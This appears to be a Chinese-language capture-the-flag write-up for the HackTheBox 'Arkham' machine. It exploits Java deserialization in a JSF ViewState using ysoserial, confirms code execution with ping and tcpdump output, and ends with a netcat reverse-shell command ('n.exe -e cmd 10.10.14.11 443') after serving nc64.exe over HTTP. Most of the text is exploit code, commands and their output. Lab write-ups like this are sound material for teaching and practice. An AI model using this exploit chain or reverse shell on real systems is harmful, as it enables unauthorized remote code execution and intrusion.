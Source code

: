 ```
sess = requests.session()
sess.get('http://10.10.10.130:8080/userSubscribe.faces')
resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',
        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',
                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': viewstate})
```

启动本地监听

```
tcpdump -i tun0 icmp
```

使用脚本执行 ping 命令

```
python3 exploit.py BeanShell1 'ping 10.10.14.14'
```

```
root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:27:33.898247 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 1, length 40
16:27:33.898266 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 1, length 40
16:27:34.910181 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 2, length 40
16:27:34.910199 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 2, length 40
16:27:35.925949 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 3, length 40
16:27:35.925964 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 3, length 40
16:27:36.938872 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 4, length 40
16:27:36.938903 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 4, length 40
```

成功收到 ping 命令，反序列化漏洞验证成功

## 获取shell

为了获取目标站点的shell，我们把 nc64.exe 放在本目录下并开启 http 服务

```
python -m SimpleHTTPServer 80
```

在本地开启监听，接收反弹shell

```
 nc -nvlp 443
```

这里需要在 exploit.py 进行略微修改，源码如下

```
#!/usr/bin/env python3

import requests
import subprocess
import sys
from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from os import devnull
from urllib.parse import quote_plus as urlencode


with open(devnull, 'w') as null:
    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', 'CommonsCollections5', sys.argv[1]], stderr=null)

```

[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 